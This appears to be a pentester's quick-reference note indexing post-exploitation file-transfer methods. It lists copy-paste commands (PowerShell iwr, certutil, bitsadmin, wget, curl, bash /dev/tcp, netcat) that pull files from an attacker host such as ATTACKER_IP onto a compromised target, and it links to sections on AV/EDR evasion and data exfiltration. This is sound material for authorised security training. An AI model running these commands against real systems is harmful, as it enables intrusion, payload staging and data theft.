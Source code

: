 ```yaml
---
tags: [file-transfer, post-exploitation, pentesting, quick-reference]
aliases: [File Transfer Hub, Transfer Methods, File Exfiltration]
created: 2025-01-28
---
```


# 📁 File Transfer Master Index

> **Quick Reference Guide for File Transfer Methods in Post-Exploitation**

## 🎯 Quick Decision Tree

```mermaid
graph TD
    A[Need File Transfer?] --> B{Target OS?}
    B -->|Windows| C[Windows Methods]
    B -->|Linux| D[Linux Methods]
    C --> E{Direction?}
    D --> F{Direction?}
    E -->|Download to Target| G[[[Windows File Transfer Methods/Download Files to the Target Machine/PowerShell Web Downloads|PowerShell]]]
    E -->|Upload from Target| H[[[Windows File Transfer Methods/Upload Files to Attacker machine/Powershell Web Uploads|PowerShell Upload]]]
    F -->|Download to Target| I[[[Linux File Transfer Methods/Download Files to Target Machine/Web Downloads (Curl + Wget)|Wget/Curl]]]
    F -->|Upload from Target| J[[[Linux File Transfer Methods/Upload Files to Attacker Machine/Quick Web File Transfer Method|Web Upload]]]
```

## 🚀 Most Common Methods (Quick Copy-Paste)

### Windows Quick Downloads
```powershell
# PowerShell Download
iwr -Uri http://10.10.14.1/file.exe -OutFile file.exe

# Certutil
certutil -urlcache -f http://10.10.14.1/file.exe file.exe

# Bitsadmin
bitsadmin /transfer job http://10.10.14.1/file.exe C:\file.exe
```

### Linux Quick Downloads
```bash
# Wget
wget http://10.10.14.1/file.sh

# Curl
curl http://10.10.14.1/file.sh -o file.sh

# Bash TCP
exec 3<>/dev/tcp/10.10.14.1/80 && echo -e "GET /file.sh HTTP/1.1\r\nHost: 10.10.14.1\r\n\r\n" >&3 && cat <&3
```

---

## 📚 Complete Method Categories

### 🪟 [[Windows File Transfer Methods|Windows Transfer Methods]]

#### Downloads to Target
- [[PowerShell Web Downloads]] - IWR, WebClient, BITS
- [[PowerShell Base64 Encode & Decode]] - Obfuscated transfers
- [[SMB Server Downloads]] - Using Impacket SMB
- [[FTP Downloads]] - Built-in FTP client

#### Uploads from Target
- [[Powershell Web Uploads]] - POST methods
- [[PowerShell Base64 Web Upload]] - Encoded uploads
- [[FTP Uploads]] - FTP PUT commands
- [[SMB Uploads with WebDAV — Bypassing SMB Blocks|WebDAV Uploads]]
- [[Encode Files using PowerShell]] - Base64 encoding

### 🐧 [[Linux File Transfer Methods|Linux Transfer Methods]]

#### Downloads to Target
- [[Web Downloads (Curl + Wget)]] - Standard web tools
- [[Download with Bash]] - Using /dev/tcp
- [[Base64 Encoding and Decoding for File Transfers|Base64 Methods]]
- [[SSH Downloads with SCP]] - Secure transfers
- [[Fileless Attacks in Linux — Direct Execution|Fileless Execution]]

#### Uploads from Target
- [[Quick Web File Transfer Method]] - Python/PHP servers
- [[SCP Upload — Secure File Transfers Over SSH|SCP Uploads]]
- [[Web Upload with HTTPS]] - Secure web uploads

---

## 🛠️ Special Techniques

### 🥷 Stealth & Evasion
- [[LOTL File Transfers]] - Living off the Land techniques
- [[Evade Detection]] - AV/EDR bypass methods
- [[Detection - How Malicious File Transfers Are Caught|Detection Methods]] - Know your enemy
- [[Protected File Transfers]] - Encryption & obfuscation

### 📝 Programming Languages
- [[File Transfers with Code]] - Using various languages
  - [[Downloading Files]] - Code-based downloads
  - [[Uploading Files]] - Code-based uploads

### 🔌 Protocol-Specific
- [[Netcat + Ncat File Transfers]] - NC transfers
- [[RDP File Transfer]] - Using RDP clipboard/drives
- [[Sending Files over HTTP-S]] - Web server methods
- [[Powershell File Transfer]] - PS-specific techniques

---

## 🎭 Scenario-Based Quick Reference

### Scenario 1: Windows Target, No PowerShell
```cmd
# Use certutil
certutil -urlcache -f http://ATTACKER_IP/file.exe file.exe

# Or bitsadmin
bitsadmin /transfer job /download /priority foreground http://ATTACKER_IP/file.exe C:\file.exe
```

### Scenario 2: Linux Target, No wget/curl
```bash
# Bash TCP
exec 3<>/dev/tcp/ATTACKER_IP/80
echo -e "GET /file HTTP/1.1\r\nHost: ATTACKER_IP\r\n\r\n" >&3
cat <&3 > file

# Or use Python
python -c "import urllib;urllib.urlretrieve('http://ATTACKER_IP/file', 'file')"
```

### Scenario 3: Need Encrypted Transfer
- Windows: Use [[Protected File Transfers|HTTPS/SSL methods]]
- Linux: Use [[SSH Downloads with SCP|SCP]] or OpenSSL methods
- Cross-platform: Base64 encoding with [[Base64 Encoding and Decoding for File Transfers|Base64 methods]]

### Scenario 4: Large File Transfer
- Use [[SMB Server Downloads|SMB]] for Windows
- Use [[Netcat + Ncat File Transfers|Netcat]] for raw speed
- Consider compression before transfer

### Scenario 5: Bypassing Detection
- Review [[Evade Detection|evasion techniques]]
- Use [[LOTL File Transfers|LOTL binaries]]
- Implement [[Protected File Transfers|encryption/obfuscation]]

---

## 🔍 Quick Command Lookup

| Method | OS | Direction | Command |
|--------|-----|-----------|---------|
| PowerShell | Win | Download | `iwr -Uri http://IP/file -OutFile file` |
| Certutil | Win | Download | `certutil -urlcache -f http://IP/file file` |
| Wget | Linux | Download | `wget http://IP/file` |
| Curl | Linux | Download | `curl http://IP/file -o file` |
| NC | Both | Both | `nc -nlvp 4444 < file` / `nc IP 4444 > file` |
| Python | Both | Server | `python3 -m http.server 8000` |
| SMB | Win | Download | `copy \\IP\share\file .` |
| SCP | Linux | Both | `scp file user@IP:/path/` |
| Base64 | Both | Both | `base64 file > file.b64` |

---

## 📖 Related Topics
- [[../Post-Exploitation|Post-Exploitation Index]]
- [[../../Privilege Escalation|Privilege Escalation]]
- [[../../Persistence|Persistence Techniques]]
- [[../../Data Exfiltration|Data Exfiltration]]

## 🏷️ Tags
#file-transfer #post-exploitation #windows #linux #stealth #evasion #quick-reference #pentesting #red-team

---

> **Pro Tip**: Always test your file transfer method in a lab environment first. Different EDR/AV solutions detect different techniques!